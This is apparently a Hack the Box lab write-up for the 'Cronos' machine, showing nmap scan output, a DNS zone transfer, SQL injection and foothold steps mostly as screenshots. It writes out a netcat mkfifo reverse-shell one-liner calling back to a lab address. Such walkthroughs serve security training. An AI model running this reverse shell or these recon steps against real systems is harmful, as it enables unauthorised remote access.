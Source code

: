 # Hack the Box - Cronos

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.13 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/16%OT=22%CT=1%CU=35700%PV=Y%DS=2%DC=I%G=Y%TM=64630A9
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.45 seconds
```

```CSS
▶ nmap -sC -sV -p 22,53,80 10.10.10.13 -oN services.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
```

---

## Host Information
```CSS
▶ nslookup 10.10.10.13 10.10.10.13
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5f8b3c5a-66ec-4668-ac83-682205159d32)
Domain Name: ns1.cronos.htb

---

## Zone Transfer
```
▶ dig axfr @10.10.10.13 cronos.htb
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f37c34e6-4d34-4565-87d3-d57ee7464ad4)
Domain Name: admin.cronos.htb

---

## HTTP 80

URL: `http://cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5d2fecb6-cef4-421c-8578-37bfc1d978e4)

URL: `http://admin.cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fc5cbe0-b195-4dfd-aeea-79270f2ad30b)

---

## SQL Injectiion

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7c14eb8-7b03-4137-ad50-5c3055c16fc6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d97f11f-291d-4d3f-8a4f-1cef755d648c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2c8419e7-77d5-457d-a8eb-b80229de3c1d)

---

## Initial Foothold

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4e29b9df-4240-487b-98a4-6a4ce682140b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c8eb3f14-7b88-4eb2-9f7c-1c1412221f29)

Reverse Bash Shell:
```CSS
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 9001 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ccaedd1-7c22-4e29-8abf-604bffdac4f7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8fffd4c2-df59-48a1-89ef-d19e17c3b03f)

### Upgrade Shell to Interactive TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1518828-bc05-447a-8313-5a248395867b)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56cb864f-b376-435b-b207-10757c095dc7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/28989d3b-05b5-4aec-89c7-3b1e78254bb3)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d46994ef-c6fd-46ab-9f41-51a017a1c1e6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee8359b1-9f96-4aa6-a14c-adf24cc90004)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee40815a-384a-44e4-acdf-7a0ca4ccb217)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3d6b6e59-78c5-4c55-80de-f9327d40a6c0)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fa4fbaf-185b-4cde-b80a-a87d7ccccaaf)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6b77f791-0d02-4e99-92c1-cd333d8de6ca)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ebe3cceb-b6b3-4762-b0ef-9ccca2b1741f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/40dfbc48-c0f6-4f61-b82c-f0462587e129)

